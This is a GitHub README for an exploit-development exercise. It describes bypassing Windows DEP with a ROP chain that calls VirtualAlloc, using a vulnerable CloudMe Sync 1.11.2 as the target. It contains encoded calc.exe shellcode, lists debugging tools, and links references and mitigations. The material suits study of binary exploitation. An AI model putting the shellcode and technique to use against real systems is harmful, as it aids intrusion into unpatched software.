 # ROPme
Bypass Data Execution Prevention (DEP) Using VirtualAlloc in a ROP (Return-Oriented Programming) chains is a common technique to bypass DEP (Data Execution Prevention) by allocating executable memory in a process. The idea is to use a sequence of gadgets (short sequences of instructions ending in a return) to call VirtualAlloc or a similar function and allocate memory with PAGE_EXECUTE_READWRITE permissions. This allocated memory can then be used to execute shellcode

![image](https://github.com/user-attachments/assets/ba318158-d6c6-462b-94a8-83b803af2827)



## i start from [here](https://www.exploit-db.com/exploits/46250)
## [CloudMe Sync 1.11.2](https://www.exploit-db.com/apps/f0534b12cd51fefd44002862918801ab-CloudMe_1112.exe) vulnerable version
## --> i use :
### - [WINdbg](https://learn.microsoft.com/en-gb/windows-hardware/drivers/debugger)
### - [immunity Debugger](https://debugger.immunityinc.com/)
### - IDA pro 
### - SublimeText 
### - IDLE from python 
### - [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) function (memoryapi.h)
### - and finaly the calculator shellcode :
```sh

# Shellcode calc.exe
shellcode = ""
shellcode += "\xdb\xde\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x31\xba\xef"
shellcode += "\xc3\xbd\x59\x83\xc0\x04\x31\x50\x14\x03\x50\xfb\x21"
shellcode += "\x48\xa5\xeb\x24\xb3\x56\xeb\x48\x3d\xb3\xda\x48\x59"
shellcode += "\xb7\x4c\x79\x29\x95\x60\xf2\x7f\x0e\xf3\x76\xa8\x21"
shellcode += "\xb4\x3d\x8e\x0c\x45\x6d\xf2\x0f\xc5\x6c\x27\xf0\xf4"
shellcode += "\xbe\x3a\xf1\x31\xa2\xb7\xa3\xea\xa8\x6a\x54\x9f\xe5"
shellcode += "\xb6\xdf\xd3\xe8\xbe\x3c\xa3\x0b\xee\x92\xb8\x55\x30"
shellcode += "\x14\x6d\xee\x79\x0e\x72\xcb\x30\xa5\x40\xa7\xc2\x6f"
shellcode += "\x99\x48\x68\x4e\x16\xbb\x70\x96\x90\x24\x07\xee\xe3"
shellcode += "\xd9\x10\x35\x9e\x05\x94\xae\x38\xcd\x0e\x0b\xb9\x02"
shellcode += "\xc8\xd8\xb5\xef\x9e\x87\xd9\xee\x73\xbc\xe5\x7b\x72"
shellcode += "\x13\x6c\x3f\x51\xb7\x35\x9b\xf8\xee\x93\x4a\x04\xf0"
shellcode += "\x7c\x32\xa0\x7a\x90\x27\xd9\x20\xfe\xb6\x6f\x5f\x4c"
shellcode += "\xb8\x6f\x60\xe0\xd1\x5e\xeb\x6f\xa5\x5e\x3e\xd4\x59"
shellcode += "\x15\x63\x7c\xf2\xf0\xf1\x3d\x9f\x02\x2c\x01\xa6\x80"
shellcode += "\xc5\xf9\x5d\x98\xaf\xfc\x1a\x1e\x43\x8c\x33\xcb\x63"
shellcode += "\x23\x33\xde\x07\xa2\xa7\x82\xe9\x41\x40\x20\xf6"
```

# Demo 
### [Youtube video](https://www.youtube.com/watch?v=Jmxx7TdAzgw) 

# References
- [CS6265: Reverse Engineering and Binary Exploitation Lab](https://tc.gts3.org/cs6265/2021/_static/tut.pdf)
- [Exploit Development: Hands Up! Give Us the Stack! This Is a ROPpery!](https://connormcgarr.github.io/ROP/)

- [Beenu Arora. Shell code for beginners](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf)
- [Exploit-db Ashfaq Ansari. Egg-hunter, a twist in buffer overflows](https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf)
- [Exploit database John Leitch. Windows/x86 (xp sp3) (english) - calc.exe shellcode (16 bytes)](https://www.exploit-db.com/shellcodes/43773)
- [National institute of Standards NATIONAL VULNERABILITY DATABASE and An official website of the U.S. government Technology. Most recent official vulnerabilities in vlc media player](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=vlc&search_type=all)
- [Security Stackexchange. What does eip stand for](https://security.stackexchange.com/questions/129499/what-does-eip-stand-for)
- [Stackoverflow. What and where are the stack and heap](https://stackoverflow.com/questions/79923/what-and-where-are-the-stack-and-heap)
- [Stackoverflow. What are the esp and the ebp registers](https://stackoverflow.com/questions/21718397/what-are-the-esp-and-the-ebp-registers)
- [Stackoverflow. What is a reverse shell](https://stackoverflow.com/questions/35271850/what-is-a-reverse-shell)
- [Microsoft Support. What is a dll](https://support.microsoft.com/en-us/help/815065/what-is-a-dll)
### What are mitigations?
- Over the years, new generic defense methods have been added to the new systems, which
of course, as the name implies, do not prevent but mitigate or make exploitation more
difficult. "[Customize exploit protection](https://learn.microsoft.com/en-us/defender-endpoint/customize-exploit-protection)"

